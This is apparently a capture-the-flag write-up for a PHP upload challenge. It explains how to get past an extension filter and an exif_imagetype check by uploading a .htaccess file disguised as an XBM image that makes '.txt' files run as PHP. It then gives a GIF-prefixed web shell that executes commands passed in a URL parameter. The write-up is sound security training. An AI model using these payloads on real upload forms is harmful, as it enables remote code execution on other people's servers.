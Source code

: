 # Upload 2

## Write-up

The source code is provided for this challenge too, we see that we have the same PHP web application with the same upload feature, but a second check has been added:

![added check in source code](./images/php-source-code.png)
The new check doesn't allow filenames enfing with `.php` extension, but if we look at the apache configuration in that docker image, we find that the server handles **only** files ending with extension `.php` as PHP code.
So what can we do here? We can't name files with extension `.php` => we can't get our code executed.

### First part 
Well this time, some googling and/or some apache knowledge are needed.

The apache web server has a main configuratin file located in `/etc/apache/apache.conf` (to confirm), this file applies for all the directories that our web app consist of, but a feature exists, that allows, on top of the main configuration to set a per directory configuration, overriding this way the main configuration set for that directory. We can achieve this: 
- By adding a `.htaccess` file in the directory in question. 
- And specifying in the main configuration, that the `.htaccess` files are allowed to override the main configuration in the scope of that directory. For this, in the main configuration we need to specify `AllowOverride All`. This is disabled by default, but fortunately, the specified docker image `php:8.2-apache` has got this already specified in the file `/etc/apache2/conf-enabled/docker-php.conf`

![](./images/docker-apache-conf.png)

In the `.htaccess` file, we can specify new directives to be applied in that directory, one that can help our case is the `SetHandler` for which we specify how to handle the file that matches certain pattern. For example, if we put in our `.htaccess` file the following directives, then all files terminating with `test` will be handled as PHP files.
```
<FilesMatch test$>
    SetHandler application/x-httpd-php
</FilesMatch>
```
So, if we put such file in our directory we can bypass the new added check in this challenge since the check prohibits filenames ending with `.php`, but now, we don't have to name our file with `.php` extension, we can just end its name with `test` and put PHP code there and the server will handle it as PHP!

### Second part
Now that we know what we have to upload, the `.htaccess` file, a little thing is still remaining, if we upload the file as it is then it fails the check of `exif_imagetype` since the first bytes don't match any valid image supported by the function.
So now, our task is to make our `.htaccess` file look like a valid image for `exif_imagetype` and in the same time a valid `.htaccess` for apache wihtout breaking it. How can we do it?
Well, if we look more closely into the valid images by `exif_imagetype`, we find that the `IMAGETYPE_XBM`, if we google this image format we find that it is the *X Bitmap* type which images are made of C, in wikipedia it gave an example of the following file as an XBM image
```C
#define test_width 16
#define test_height 7
static unsigned char test_bits[] = {
0x13, 0x00, 0x15, 0x00, 0x93, 0xcd, 0x55, 0xa5, 0x93, 0xc5, 0x00, 0x80,
0x00, 0x60 };
```
For XBM images, `exif_imagetype` reads the two first lines and checks if they specify the width and height, if so, then it returns the `IMAGETYPE_XBM`. 
The good news are that these two lines start with `#` so if we add them on top of our `.htaccess` file the apache server will see them as comments so it won't break the `.htaccess` file. 
We can exploit now.


## Exploit
1. We Upload a file named `.htaccess` with the following content
``` 
#define width 16
#define height 7
<FilesMatch \.txt$>
        SetHandler application/x-httpd-php
</FilesMatch>
```
In which we added the first two lines to bypass the `exif_imagetype` check and the rest is to allow the handling of files ending with the extension `.txt` as PHP files.
2. Now, we can upload any file with any PHP code and it is gonna get executed, so we upload a file named `shell.txt` with the following content and get our RCE when we browse to it.
```php
GIF89a
<?php passthru($_GET['cmd']); ?>
```
We added the GIF magic bytes so that the file bypasses the check of `exif_imagetype`.
Now we can get the flag.


